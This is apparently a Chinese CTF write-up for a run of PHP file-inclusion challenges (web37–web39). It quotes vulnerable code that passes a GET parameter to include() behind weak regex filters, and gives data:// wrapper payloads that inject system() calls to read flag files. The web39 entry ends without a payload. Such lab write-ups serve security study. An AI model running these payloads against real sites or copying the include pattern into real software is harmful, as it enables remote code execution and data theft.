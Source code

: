 

------

<div style="page-break-after:always"></div>

### 类型二

变量接收并过滤传入的数据,include来包含文件

#### web37

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c);
        echo $flag;
    }
}
```

**payload**

```
/?c=data://text/plain,<?php system("cat f*");?>
```

------

#### web38

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    }
}

```

**payload**

```
/?c=data:text/plain,<?=system("tac fla*");?>
```

------

#### web39

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
}

```
